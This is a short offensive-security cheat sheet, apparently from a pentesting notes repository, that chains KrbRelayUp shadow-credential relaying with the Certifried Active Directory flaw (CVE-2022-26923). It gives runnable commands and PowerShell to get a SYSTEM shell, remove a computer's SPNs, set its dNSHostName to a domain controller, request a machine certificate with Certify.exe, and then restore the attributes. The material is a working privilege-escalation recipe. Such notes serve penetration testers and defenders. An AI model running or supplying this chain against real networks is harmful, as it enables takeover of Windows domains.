 ### Certifried combined with KrbRelayUp

### Start SYSTEM cmd shell
```
KrbRelayUp.exe full -m shadowcred -f
```

### Remove SPNs and modify dNSHostName to a DC (save original values in variables $spn and $dns)
```
$searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]'')
$searcher.filter = '(&(objectClass=computer)(sAMAccountName={0}$))' -f $Env:ComputerName
$obj = [ADSI]$searcher.FindAll().Path
$spn = @()
$obj.servicePrincipalName | % { $spn += $_ }
$dns = $obj.dNSHostName.ToString()     
$spn | % { $obj.servicePrincipalName.Remove($_) }
$obj.dNSHostName = "<domainControllerFqdn"
$obj.SetInfo()
```

### Request certificate using abused computer
```
.\Certify.exe request /ca:<domainControllerFqdn>\<certificateAuthority> /machine
```

### Restore computer attributes
```
$obj.dNSHostName = $dns
$spn | % { $obj.servicePrincipalName.Add($_) }
$obj.SetInfo()
```

### References
https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4
https://gist.github.com/tothi/f89a37127f2233352d74eef6c748ca25

